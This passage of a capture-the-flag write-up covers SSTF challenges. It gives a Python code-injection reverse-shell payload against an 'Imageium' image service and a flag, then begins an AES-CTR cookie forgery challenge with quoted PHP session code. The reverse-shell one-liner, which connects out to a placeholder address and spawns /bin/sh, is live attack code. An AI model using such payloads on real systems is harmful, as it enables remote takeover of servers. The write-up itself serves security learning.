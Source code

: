 We select random mode and then generate the image, then right click on the image to open it in a new tab. We get a request to (if we choose mode R):

```
http://imageium.sstf.site/dynamic/modified?mode=r
```

Everything put after ```?mode=``` is evaluated by python, so we put this payload to create a _reverse shell_:

{% highlight python %}
exec('import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_ADDRESS",YOUR_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);pty.spawn("/bin/sh")')
{% endhighlight %}

Flag is in ```secret/flag.txt```.

```
SCTF{3acH_1m@ge_Has_iTs_0wN_MagIC}
```

# CUSES

```
Author: Shotokhan
Description: AES-CTR cookie forgery
Category: Crypto/Web
Points: 118
```

> I heared that cookie is obsolete and weak.
> So I made a CUstom SESsion using AES encryption.
> I am safe now.
> http://cuses.sstf.site
> Note: If you don't know how to solve this problem, it would be helpful to study RC four tutorial again.

There is a website which comes with an interface for login and registration. <br>
When trying to register, there is an error message saying that only admin can register users. <br>
Anyway, when looking at HTML source, we can see that there is a comment stating that you can login with the following credentials: ```guest / guestpassword```. <br>
At this point, after logging in, we have the following message:

```
Welcome, guest :)
Only admin can see the flag. Sorry.
```

And we have the buttons ```view source``` and ```logout```. <br>
Therefore we look at the source:

{% highlight php %}
<?php

include "secret.php";    //server_secret, iv, flag

$cookie_name = "SESSION";

if (!isset($_COOKIE[$cookie_name])) {
    header('Location: /signin.php');
    exit;
}

$cipher="aes-128-ctr";
list($iv, $encrypted_session_data) = explode("|", base64_decode($_COOKIE[$cookie_name]), 2);
$session_data = openssl_decrypt($encrypted_session_data, $cipher, $server_secret, OPENSSL_RAW_DATA, $iv);
list($username, $auth_code) = explode("|", $session_data);
if ($auth_code !== $server_secret) {
    die("No hack!");
}